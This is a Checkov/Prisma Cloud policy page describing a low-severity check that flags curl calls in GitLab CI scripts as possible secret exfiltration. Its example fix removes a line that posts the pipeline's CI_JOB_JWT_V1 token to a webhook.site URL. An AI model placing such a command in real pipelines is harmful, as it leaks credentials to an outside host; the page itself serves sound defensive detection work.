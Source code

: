 == Suspicious use of curl in a GitLab CI environment


=== Policy Details 

[width=45%]
[cols="1,1"]
|=== 
|Prisma Cloud Policy ID 
| 8e7ade8f-68c7-45b6-95f1-d319b59b9a43

|Checkov Check ID 
| https://github.com/bridgecrewio/checkov/blob/main/checkov/gitlab_ci/checks/job/SuspectCurlInScript.py[CKV_GITLABCI_1]

|Severity
|LOW

|Subtype
|Build

|Frameworks
|GitLabCI

|=== 



=== Description 


Using curl with environment variables could be an attempt to exfiltrate secrets from a pipeline.
Investigate if the use of curl is appropriate and secure.


*Example Fix Block code and remove code that attempts to exfiltrate secrets.* 


[source,yaml]
----
deploy:
-  script: 'curl -H \"Content-Type: application/json\" -X POST --data "$CI_JOB_JWT_V1" https://webhook.site/4cf17d70-56ee-4b84-9823-e86461d2f826'
----
----
----
